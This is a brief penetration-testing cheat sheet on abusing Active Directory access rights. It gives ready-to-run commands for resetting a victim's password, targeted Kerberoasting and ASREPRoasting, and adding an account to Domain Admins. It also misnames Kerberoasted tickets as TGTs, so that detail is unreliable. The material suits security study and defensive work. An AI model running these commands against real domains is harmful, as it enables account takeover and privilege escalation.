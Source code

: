 ## **GenericAll Rights on User**

This privilege grants an attacker full control over a target user account. Once `GenericAll` rights are confirmed using the `Get-ObjectAcl` command, an attacker can:

* **Change the Target's Password**: Using `net user <username> <password> /domain`, the attacker can reset the user's password.
* **Targeted Kerberoasting**: Assign an SPN to the user's account to make it kerberoastable, then use Rubeus and targetedKerberoast.py to extract and attempt to crack the ticket-granting ticket (TGT) hashes.

```powershell
Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:<username> /nowrap
Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
```

* **Targeted ASREPRoasting**: Disable pre-authentication for the user, making their account vulnerable to ASREPRoasting.

```powershell
Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
```

## **GenericAll Rights on Group**

This privilege allows an attacker to manipulate group memberships if they have `GenericAll` rights on a group like `Domain Admins`. After identifying the group's distinguished name with `Get-NetGroup`, the attacker can:

* **Add Themselves to the Domain Admins Group**: This can be done via direct commands or using modules like Active Directory or PowerSploit.

```powershell
net group "domain admins" spotless /add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

## **GenericAll / GenericWrite / Write on Computer/User**

Holding these privileges on a computer object or a user account allows for:

* **Kerberos Resource-based Constrained Delegation**: Enables taking over a computer object.
* **Shadow Credentials**: Use this technique to impersonate a computer or user account by exploiting the privileges to create shadow credentials.

## **WriteProperty on Group**

If a user has `WriteProperty` rights on all objects for a specific group (e.g., `Domain Admins`), they can:

* **Add Themselves to the Domain Admins Group**: Achievable via combining `net user` and `Add-NetGroupUser` commands, this method allows privilege escalation within the domain.
